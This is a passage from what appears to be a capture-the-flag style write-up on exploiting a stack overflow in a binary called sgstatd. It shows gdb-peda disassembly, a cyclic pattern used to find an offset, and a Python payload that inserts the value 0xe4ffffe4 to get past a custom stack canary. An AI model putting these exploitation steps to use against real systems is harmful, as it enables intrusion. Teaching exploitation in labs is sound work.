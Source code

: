    0x8049891 <sgstatd+66>:	call   0x8049017 <sgnet_readn>
   0x8049896 <sgstatd+71>:	add    esp,0x10
   0x8049899 <sgstatd+74>:	mov    edx,DWORD PTR [ebp-0x4]
=> 0x804989c <sgstatd+77>:	xor    edx,0xe4ffffe4
   0x80498a2 <sgstatd+83>:	jne    0x804982f <sgnet_exit>
   0x80498a8 <sgstatd+89>:	mov    eax,0x0
   0x80498ad <sgstatd+94>:	leave  
   0x80498ae <sgstatd+95>:	ret
[------------------------------------stack-------------------------------------]
0000| 0xbfffee90 --> 0xbfffeef0 ('A' <repeats 116 times>, "\230\300\004\b\023")
{% endhighlight %}

To make it easier to find my location in my exploit string I use peda's pattern create to build a 200 byte string

{% highlight bash %}
gdb-peda$ pattern_create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
{% endhighlight %}

I now see the bytes that wind up in EDX for my canary check are

{% highlight bash %}
EDX: 0x35644134 ('4Ad5')

{% endhighlight %}

Finding and replacing that value in the string with our canary value is as easy as 

{% highlight bash %}
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad"
payload += "\xe4\xff\xff\xe4"
payload += "Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

r.send(payload)

{% endhighlight %}

Rerunning the exploit triggers the canary breakpoint in gdb and EDX now has the proper canary value!

{% highlight bash %}
[SNIP]
EDX: 0xe4ffffe4 
[SNIP]
=> 0x804989c <sgstatd+77>:	xor    edx,0xe4ffffe4
{% endhighlight %}

Stepping over a few instructions in gdb shows we are successful at bypassing the canary.

{% highlight bash %}
=> 0x80498a8 <sgstatd+89>:	mov    eax,0x0
{% endhighlight %}
